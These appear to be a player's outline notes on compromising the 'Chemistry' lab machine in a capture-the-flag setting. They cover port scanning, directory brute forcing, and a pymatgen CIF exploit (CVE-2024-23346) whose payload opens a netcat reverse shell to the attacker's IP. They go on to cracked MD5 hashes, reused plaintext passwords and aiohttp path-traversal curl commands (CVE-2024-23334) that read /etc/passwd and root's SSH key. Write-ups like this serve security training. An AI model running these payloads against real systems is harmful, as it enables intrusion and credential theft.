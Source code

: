 ### Enumeration
```
IP=10.10.11.38
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- ./nmap
	- 10.10.11.38
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
- 5000
	- upnp
### Foothold
- 5000
	- Default landing page
		- Chemistry01
	- Directory Brute force
		- dirsearch -u http://$IP:5000
			- /login
			- /register
			- /upload
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /login
				- admin:admin
					- Chemistry02
			- /register
				- admin:admin
					- Chemistry03
				- admin123:admin123
					- Creates account
						- Chemistry04
	- Versions
		- CIF file
			- CVE-2024-23346
				- https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
				- Changed this part of code `("os").system ("busybox nc 10.10.14.154 443 -e sh");0,0,0'
				- Landed a rev shell
				- Chemistry05
### PE
#### Linux
- app
	- id
		- uid=1001(app) gid=1001(app) groups=1001(app)
	- Root drive directory
		- nothing abnormal
	- sudo -l
		- requires password
		- Tried
			- app, root, MyS3cretCh3mistry4PP
	- uname -a
		- `Linux chemistry 5.4.0-196-generic #216-Ubuntu SMP Thu Aug 29 13:26:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping cap_net_raw+ep
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- ./GTFOBins_SUID.py
			- Nothing from output
	- Users with console
		- app
			- app.py
				- Chemistry06
				- Possible sql login
					- app:MyS3cretCh3mistry4PP
			- /instance/database.db
				- Chemistry07
				- Chemistry08
				- Crackstation
					- rosa:63ed86ee9f624c7b14f1d4f43dc251a5
						- unicorniosrosados
					- admin:2861debaf8d99436a10ed6f75a252abf
						- not found
		- rosa
			- su rosas
				- MyS3cretCh3mistry4PP, rosa
					- failed
				- unicorniosrosados
					- Succeed
	- netstat -ano
		- Active ports
			- 8080, 53
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
			- monitoring_site
				- Owned by root
		- /etc/crontab
			- nothing
	- linpeas
		- Possible Exploits
		- Interesting Files
		- Nothing
	- pspy64
- rosa
	- id
		- uid=1000(rosa) gid=1000(rosa) groups=1000(rosa)
	- history
		- nothing
	- sudo -l
		- unicorniosrosados
			- Can't run sudo
	- suid
		- nothing new
	- linpeas
		- nothing new
	- Port 8080
		- Setup port forward
			- ssh -f -N -D 1080 rosa@10.10.11.38
		- proxychains dirsearch -u http://127.0.0.1:8080
			- Nothing
		- proxychains nikto -h http://127.0.0.1:8080
			- Server: Python/3.9 aiohttp/3.9.1
			- Google aiohttp 3.9.1 exploit
				- LFI - https://github.com/z3rObyte/CVE-2024-23334-PoC
			- Chemistry09
		- LFI
			- `proxychains curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../etc/passwd"`
			- Outputs etc/passwd file
		- `proxychains curl -s --path-as-is "http://127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../root/.ssh/id_rsa"
			- outputs root id_rsa
			- Chemistry10
- root
	- Chemistry11
### Credentials
### Lessons Learned